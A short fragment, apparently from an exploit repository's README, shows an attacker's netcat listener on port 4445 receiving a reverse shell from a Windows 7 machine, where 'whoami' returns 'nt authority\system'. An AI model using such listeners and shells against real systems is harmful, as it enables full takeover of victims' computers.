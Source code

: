 ## Attackers Netcat Listener:
```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
